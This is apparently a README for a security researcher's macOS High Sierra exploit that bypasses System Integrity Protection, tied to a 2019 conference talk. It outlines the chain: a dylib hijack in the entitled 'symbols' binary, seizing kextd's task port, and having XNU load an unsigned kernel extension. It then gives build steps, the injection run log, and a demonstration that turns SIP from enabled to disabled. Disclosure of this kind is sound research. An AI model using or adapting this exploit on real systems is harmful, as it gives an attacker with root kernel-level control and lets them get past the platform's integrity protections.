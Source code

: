 # macOS 10.13.x SIP bypass (kernel privilege escalation)

Works only on High Sierra, and requires root privilege. It can be chained with my previous local root exploits.

## Slides

https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf

* `symbols` has `com.apple.system-task-ports` entitlement thus it can get the task port of `kextd` via `task_for_pid` (requires root because kextd has euid 0)
* Trigger dylib hijack to load evil payload in process `symbols` and steal the entitlement and control `kextd`
* `kextd` / `kextutil` / `kextload` are `com.apple.rootless.kext-secure-management` entitled, with whom the they can send MKext request to XNU to load KEXT
* All the validation are checked in userland: code signature, root filesystem permission, User-Approved Kernel Extension Loading, KEXT staging. Just ask XNU to load our KEXT without code signature

## Build

First, grab the dependencies

```sh
git submodule init
git submodule update
```

Install binutils

`brew install binutils`

Build [Unrootless.kext](https://github.com/LinusHenze/Unrootless-Kext)

```sh
pushd 3rd-party/Unrootless-Kext ; xcodebuild ; popd
```

Build kernel exploit

```sh
pushd libinj ; make ; popd; pushd kernel ; make ; popd
```

## Run

```
$ sudo ./kernel/bin/exp
Password:
2019-05-13 01:11:14.826 exp[666:7308] [LightYear] taytay pid: 668
2019-05-13 01:11:14.828 exp[666:7308] [LightYear] status: 0, pid 669
2019-05-13 01:11:14.892 symbols[669:7313] [LightYear] I am in symbols
2019-05-13 01:11:14.895 symbols[669:7313] [LightYear] inject /Users/test/Downloads/1/kernel/bin/Toolchains/XcodeDefault.xctoolchain/> usr/lib/libswiftDemangle.dylib to kextd
get task port (OK)
allocate stack (OK)
remote stack 0x10714d000
allocate code (OK)
remote code 0x1041e7000
write loader code (OK)
mark code as eXecutable (OK)
mark stack as RW (OK)
write params (OK)
create remote thread (OK)
So it's gonna be forever
```

Then try to load any unsigned KEXT

```
$ csrutil status
System Integrity Protection status: enabled.
$ codesign -dvvv "./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext"
./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext: code object is not signed at all
$ sudo kextload 3rd-party/Unrootless-Kext/build/Release/Unrootless.kext
$ csrutil status
System Integrity Protection status: disabled.
```
